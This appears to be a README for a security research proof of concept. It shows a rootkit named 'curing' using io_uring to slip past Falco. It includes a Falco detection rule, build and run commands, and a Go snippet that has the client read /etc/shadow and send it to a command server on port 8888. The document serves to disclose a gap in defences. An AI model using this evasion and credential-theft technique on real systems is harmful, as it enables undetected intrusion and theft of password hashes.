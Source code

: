 # POC bypassing Falco

As a POC, we will bypass Falco by running the latest version Falco on the machine with the following rules:

* Detect any TCP connection attempts to port 8888
* Detect access to /etc/shadow 

## Running Falco
Let's start by running Falco on the machine where `curing` is running.

To run Falco, we will use the following command:
```shell
docker run --rm -i -t --name falco --privileged  \
    -v $(pwd)/falco_custom_rules.yaml:/etc/falco/falco_rules.local.yaml \
    -v /var/run/docker.sock:/host/var/run/docker.sock \
    -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v /etc:/host/etc:ro \
    falcosecurity/falco-no-driver:0.39.2 falco
```

The `falco_custom_rules.yaml` file contains the following rule to detect any TCP connection attempts to port 8888 (detecting access to `/etc/shadow` is built-in):
```yaml
- rule: TCP Connection to Port 8888
  desc: Detect any TCP connection attempts to port 8888
  condition: >
    evt.type=connect and 
    evt.dir=< and 
    fd.type=ipv4 and 
    fd.sport=8888 and 
    fd.l4proto=tcp
  output: >
    TCP connection to port 8888 detected 
    (process=%proc.name 
    command=%proc.cmdline 
    connection=%fd.name 
    container=%container.info 
    user=%user.name)
  priority: NOTICE
  tags: [network]
```

## Showing regular Falco alerts
To show that Falco is working, we ran `nc` to connect to port 8888 and access `/etc/shadow`:
![Falco alerts]
We can see that Falco detected the connection to port 8888 and access to `/etc/shadow` as expected.

## Bypassing Falco
To bypass Falco, we will run the `curing` client and server.
To build the `curing` client and server, we will use the following commands:
```shell
make all
```

To run the `curing` server, we will use the following command:
```shell
./build/server
```

To control the server port, edit the server.port in `cmd/config.json`, the default port is 8888.

To run the `curing` client, we will use the following command:
```shell
./build/client
```
It will read the `cmd/config.json` file to connect to the server so be sure to edit the details in the file.

For the sake of this POC, the server is just going to send one command to the client to read `/etc/shadow` and send it back to the server.
```go
commands := []common.Command{
  common.ReadFile{Id: "read shadow", Path: "/etc/shadow"},
}
```

The `curing` rookit is using `io_uring` to connect to the server and to read the file `/etc/shadow`, this means that "0" syscalls (which are related to the attack) are made and Falco will not detect the attack.

![Falco alerts]

As we can see, Falco is not detecting the attack because the attack is not using any syscalls that Falco is monitoring.

## Conclusion
In this POC, we bypassed Falco by using `io_uring` to connect to the server and read the file `/etc/shadow`. This means that Falco is not able to detect the attack because the attack is not using any syscalls that Falco is monitoring, this attack technique is also bypassing other security tools that are monitoring syscalls such as `tetragon` by Cilium.
